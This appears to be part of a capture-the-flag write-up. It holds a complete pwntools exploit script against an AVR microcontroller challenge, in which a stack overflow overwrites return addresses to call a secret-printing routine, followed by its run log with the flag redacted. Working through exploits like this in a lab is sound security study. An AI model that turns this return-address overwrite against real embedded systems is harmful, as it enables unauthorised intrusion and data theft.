 ```python
#!/usr/bin/env python3

from pwn import *
import argparse

context.arch = 'avr'
context.bits =  8
context.endian = 'big'

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('host', type=str, help='Target host')
    parser.add_argument('port', type=int, help='Target port')
    args = parser.parse_args()

    host = args.host
    port = args.port

    get_secret_address_ea = 0x169
    uart_puts_p_ea = 0x135 
    reset_handler_ea = 0x0 

    r = remote(host, port)

    payload = b'A' * 19
    payload += b'\x00' + p16(get_secret_address_ea)
    payload += b'\x00' + p16(uart_puts_p_ea)
    # uncomment following line to correctly terminate exploit
    # it is not prepended with b'\x00' because the '\n' sent
    # by `sendline` will be overwritten by the program with a 
    # null byte, we cannot inject it ourself because it would
    # write the '\n' out of stack memory limit
    #payload += p16(reset_handler_ea)   
                                        
                                        

    r.sendline(payload)
    sleep(0.5)
    ans = r.recv(4096, timeout=1)
    r.close()
    try:
        print('flag:', ans.decode('utf-8'))
    except:
        print('flag:', ans)
```

Running it give us the flag:
```bash
$ python3 exploit.py localhost 4000
[+] Opening connection to localhost on port 4000: Done
[*] Closed connection to localhost port 4000
flag: FCSC{__REDACTED__}
```
